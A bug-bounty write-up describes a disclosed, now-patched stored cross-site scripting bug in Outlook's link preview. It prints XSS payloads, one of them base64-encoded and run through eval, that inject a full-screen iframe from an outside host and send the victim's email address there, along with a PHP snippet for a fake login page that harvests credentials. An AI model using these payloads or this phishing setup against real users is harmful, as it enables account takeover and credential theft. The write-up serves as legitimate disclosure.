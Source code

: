 ```yaml
---
title: 'Uncovering a Bug I Found in Outlook: How Could an Account Has Been Compromised?'
layout: post
date: '2022-12-26 06:26:33'
---
```


### 1. Introduction

This blog post covers a [cross-site scripting](https://en.wikipedia.org/wiki/Cross-site_scripting) bug that I found on [Microsoft Outlook](https://en.wikipedia.org/wiki/Microsoft_Outlook).

I realized that it would be a good idea to write about it for myself and for the benefit of the community.

This bug could have allowed hackers to take over a victim's account or gather sensitive data without the victim even opening an email.

### 2. TL;DR - PoC Video

I'm keeping the 1080p, longer, and uncensored version for myself.

[![](https://img.youtube.com/vi/aM2CgwQRlfk/0.jpg)](https://www.youtube.com/watch?v=aM2CgwQRlfk)

### 3 How I Found The Bug

1. The link preview feature was the vulnerable one. However, it only worked with a group of trusted domains. If a domain was not whitelisted, it would not be fetched. So, I searched for random strings on the search bar of Microsoft.com and Xbox.com and I collected domain of the results. It was my way to find these whitelisted domains. These domains did not necessarily had to be owned by Microsoft. For example, creating Prezi presentations was also working.

2. The vulnerable component was not fetching every part of those trusted websites. So, I needed to go and check different fields of those pages, such as changing the title, description, or other parts. I was not able to edit the fetched content on some of the websites because the preview functionality was only fetching HTML meta tags and so on.


3. So, I ended up my search with creating a post on gallery.technet.microsoft.com. This was the post I used for my report: [https://gallery.technet.microsoft.com/Test-etmek-icin-oneriler-c5b185d4]( https://gallery.technet.microsoft.com/Test-etmek-icin-oneriler-c5b185d4)

4. I used following payload as description/body field and it worked for me:

```html
"><img src=x onerror= JAVASCRIPT-CODE-HERE.
```

5. To trigger the bug, you just need to send the URL in the email and that was it. If a victim opens or clicks the "checkbox", the payload was working.

6. As you can guess, it was possible to edit the payload remotely. After a successful attack you could even remove payloads from that page then the email wouldn't contain anything malicious but an URL of a page owned by Microsoft.

### 4. Technical Details of The PoC

1. As you can see in the PoC video above, I created a fake clone of the Outlook login page in PHP and saved login details into a MySQL database. I wanted to create a targeted (email field dynamically changes) fake page because in the original Outlook login page, it shows your email and asks for the password.


2. It was not possible to fit a big payload, so I needed to include my external JavaScript from my server, but I couldn't do because of the [CSP](https://en.wikipedia.org/wiki/Content_Security_Policy) as I remember.


3. The following JavaScript code sends the document.title (which contains the email address of the victim) and creates an iframe of my fake login page. Note: I couldn't find the original payload, but I wrote it manually by looking at my other PoC video, so typos may have happened.

```css
"><img src ="x" onerror="document.write('<iframe src="https://cok.kim/?email='+document.title+'" style="border: 0; position:fixed; top:0; left:0; right:0; bottom:0; width:100%; height:100$">')"
```

4. That one was breaking, so I used the following as the final encoded payload (it's different from the PoC video, I guess I made a typo above).

```html
"><img src="x" onerror="document.write(document.write(eval(atob('Ij48aW1nIHNyYyA9IngiIG9uZXJyb3I9ImRvY3VtZW50LndyaXRlKCc8aWZyYW1lIHNyYz0iaHR0cHM6Ly9jb2sua2ltLz9lbWFpbD0nK2RvY3VtZW50LnRpdGxlKyciIHN0eWxlPSJib3JkZXI6IDA7IHBvc2l0aW9uOmZpeGVkOyB0b3A6MDsgbGVmdDowOyByaWdodDowOyBib3R0b206MDsgd2lkdGg6MTAwJTsgaGVpZ2h0OjEwMCQiPicpIg==')))" >
```

5. My server-side code (it parses the email address of the victim from "Posta - victim@outlook.com"):
```php
<?php echo explode("-", $_GET['email'])[1]; ?>
```

## 5. Conclusion

Microsoft rewarded me with $5,000 and assigned a CVE ([CVE-2017-8758](https://msrc.microsoft.com/en-us/security-guidance/advisory/CVE-2017-8758)) for this bug because it was affecting the MS Exchange Server.

In the CVE description, it is written as **"Note: In order to exploit this vulnerability, a user must click a maliciously crafted link from an attacker.".** However, as you can see in the POC video, it was not even necessary to open it. When I asked about this, I learned that Microsoft writes generalized explanations to protect their users.

The PM asked me if I was going to Blackhat that year so they could meet me in person there. I couldn't go that year because I didn't have a visa or the money. I was disappointed when I didn't see my name on the MSRC Top 100 Security Researchers of 2017 list.

I kept reporting similar issues under my name and my nickname ([Arif Isik](https://en.wikipedia.org/wiki/G.O.R.A.#Cast), who is a movie character) for a year.

I was listed 35th and Arif was 92nd on the [Microsoft’s Top 100 Security Researchers of 2018](https://msrc-blog.microsoft.com/2018/08/08/microsofts-top-100-security-researchers-black-hat-2018-edition/). I was invited to [BlueHat](https://en.wikipedia.org/wiki/BlueHat) and had the opportunity to meet some engineers and see the Microsoft headquarters in Seattle.
